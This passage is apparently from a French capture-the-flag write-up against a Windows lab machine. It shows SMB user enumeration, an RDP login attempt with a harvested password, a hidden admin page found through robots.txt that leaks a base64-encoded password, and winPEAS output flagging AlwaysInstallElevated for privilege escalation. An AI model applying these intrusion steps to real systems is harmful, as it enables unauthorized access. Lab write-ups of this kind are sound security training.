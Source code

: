 ```console
SMB         192.168.56.108  445    ALWAYS-PC        ftpuser                       2024-09-30 19:25:29 0        
SMB         192.168.56.108  445    ALWAYS-PC        Guest                         <never>             1       Bilgisayara/etki alanına konuk erişiminde kullanılan önceden tanımlı hesap 
SMB         192.168.56.108  445    ALWAYS-PC        [*] Enumerated 4 local users: Always-PC
```

Malgré tout, je n'arrive pas à avoir un shell puisque les partages sont en lecture seule.

Il nous reste alors le RDP en écoute :

```bash
xfreerdp /u:ftpuser '/p:KeepGoingBro!!!' /v:192.168.56.108
```

Mais cette fois, un message d'erreur en turc, indique que l'utilisateur ne fait pas partie des utilisateurs autorisés en connexion à distante...

Je suis donc allé fouiller ailleurs et tout ce que j'avais, c'était un fichier `robots.txt` trouvé sur la racine du FTP.

Malgré le nom du fichier, le dossier FTP ne partage aucune relation avec la racine web. Le fichier contient ceci :

```
User-agent: *
Disallow: /admins-secret-pagexxx.htm
```

On ouvre ce path sur le serveur Apache et on obtient un nouveau mot de passe :

```html
        <h2>Admin's Secret Notes</h2>
        <ul>
            <li>1) Disable the firewall and Windows Defender.</li>
            <li>2) Enable FTP and SSH.</li>
            <li>3) Start the Apache server.</li>
            <li>4) Don't forget to change the password for user 'always'. Current password is "WW91Q2FudEZpbmRNZS4hLiE=".</li>
        </ul>
```

Ça se décode en `YouCantFindMe.!.!`. Toutefois, le mot de passe ne fonctionne pas avec le compte `always` quelle que soit la méthode employée...

Il s'avère finalement qu'il fallait se connecter via la mire de Windows accessible via la fenêtre de l'émulateur, chose qui ne se fait généralement pas sur un CTF.

### NOPASSWD

Ça a été une sacrée galère à se connecter puisque le système est configuré en turc et que l'alphabet est différent. Heureusement le clavier virtuel de Windows et la présence du layout anglais secondaire ont (péniblement) aidé.

Bien qu'on se doute de l'issue de l'escalade de privilèges, on peut lancer un [winPEAS.bat](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS/winPEASbat) qui nous confirmera notre intuition.

```
 [+] AlwaysInstallElevated?
   [i] If '1' then you can install a .msi file with admin privileges ;)
   [?] https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#alwaysinstallelevated

HKEY_CURRENT_USER\SOFTWARE\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1


HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1
```
